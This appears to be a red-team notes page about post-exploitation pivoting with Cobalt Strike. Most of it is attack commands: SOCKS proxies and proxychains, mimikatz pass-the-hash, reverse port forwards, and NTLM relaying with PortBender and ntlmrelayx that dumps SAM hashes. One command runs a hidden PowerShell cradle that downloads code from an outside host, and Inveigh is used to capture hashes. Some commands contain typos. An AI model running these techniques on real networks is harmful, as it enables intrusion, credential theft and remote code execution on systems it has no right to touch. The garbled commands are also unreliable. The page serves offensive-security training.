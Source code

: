 ```yaml
---
title: Pivoting
category: 00 - Red Team
order: 10
---
```


Pivoting are post-explotaiton techniques that allows us to access to the network where we have just landed.

# SOCKS Proxies

A SOCKS (Secure Socket) Proxy exchanges network packets between a client and a server via a "proxy".

It's very useful when we need to leverage with others toolsets that are only available in linux such as impacket.

> **Note**: The port will binding on the Team Server.

To start a socks proxy we can use:

* SOCKS4:
```
beacon> socks [port]
```
* SOCKS5 with password:
```
beacon> socks [post] socks5 disableNoAuth [socks_user] [socks_password] enableLogging
```

Finally we can access it with `proxychains`, but first we need to configure `/etc/proxychains.conf` file.

* SOCKS4:
```
socks4 127.0.0.1 [port]
```
* SOCKS5 with password:
```
socks5 127.0.0.1 [port] [socks_user] [socks_password]
```

```
proxychains -q [command] [arguments]
```

# Windows Apps

It is also possible to tunnel Windows GUI apps using `proxifier`.

* [https://www.proxifier.com/](https://www.proxifier.com/)

With Proxifier we can specify which application we want to tunneling.

To use Windows authentication via a proxy, the application needs to be launched as a user from the target domain.

```
runas /netonly /user:CORP\user C:\Tools\program.exe`
```

It can also be achieved with `mimikatz`.

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
```

Or we can use powershell credentials:

```powershell
$cred = Get-Credential
Get-ADComputer -Server 10.10.10.10 -Credential $cred
```

# Port Forwarding

I will not explain what is a port forwarding since is detailed on `Post-Exploitation` section on this gitbook, but we will discuss how to execute it from Cobalt Strike.

```
beacon> rportfwd 8080 10.10.10.10 80
[+] started reverse port forward on 8080 to 10.10.10.10:80
```

To stop the forwarding:

```
beacon> rportfw stop 8080
```

> **Notes**:
> * Beacon's reverse port forward always tunnels the traffic to the Team Server and the Team Server sends the traffic to its intended destintation.
> * The traffic is tunnelled inside the Beacon's C2 traffic, not over separate sockets.
> * You don't need to be a local admin to create reverse port forwards on high ports.

`rportfwd_local` will tunnel the traffic to the machine running Cobalt Strike client instead of the Team Server.

```
beacon> rportfwd_local 443 127.0.0.1 443
[+] started reverse port forward on 443 to mvc1009 -> 127.0.0.1:443
```

> **Alert**: Be careful, you must create an allow rule before running a reverse port forward.
>
> `beacon> powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080`
> `beacon> powershell Remove-NetFirewallRule -DisplayName "Test Rule"`

# NTLM Relaying

During an on-premise assessments, NTLM relaying with tools like `responder` and `ntlmrelayx` is quite trivial. However in red team assessment, is not quite trivial because port 445 is always bound and in use by Windows machines.

It's still possible with Cobalt Strike, but requires the use of multiple capabilities.

1. Use a driver `WinDivert` to redirect traffic destinated for port 445 to another port (4445). It requires local admin access in order for loading the driver. Upload the driver to `C:\Windows\System32\drivers` since this is where most windows drivers go.

```
beacon> cd C:\Windows\System32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
```
 * PortBender: [https://github.com/praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender)

Load `PortBender.cna` aggressor script and redirect the traffic.

```
beacon> PortBender redirect 445 4445
```

2. Create a reverse port forwarding that will then relay the traffic from port 4445 to port 445 on the Team Server where `ntlmrelayx` will be waiting.

```
beacon> rportfwd 4445 127.0.0.1 445
```

3. A SOCKS proxy is required to allow `ntlmrelayx` to send traffic back into the network.

```
beacon> socks 5566
```

4. Finally on the Team Server execute the `ntlmrelayx` tool, by default will execute `secretsdump` to dump local SAM hashes on the target machine.

```
proxychains -q python3 /usr/local/bin/ntlmrelayx.py -t smb://<target-ip> -smb2support --no-http-server --no-wcf-server
```

Instead of dumping SAM we can execute payloads such as beacons.

```
proxychains -q python3 /usr/local/bin/ntlmrelayx.py -t smb://<target-ip> -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -c "IEX(New-Object Net-WebClient).DownloadString(\"http://10.10.10.10/a\")"'
```

To stop `PortBender` just kill the process.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 0    1240  PortBender

beacon> jobkill 0
beacon> kill 1240
```

# NTLM Capturing

We can use `Inveigh` to listen to incoming requests, similar to `Responder` but in .NET.

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

`Inveigh` should be run as a local admin.

```
beacon> execute-assembly C:\Tools\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
```

It it also possible use the WinDivert, rportfwd and smbserver to capture the NetTLMHash.
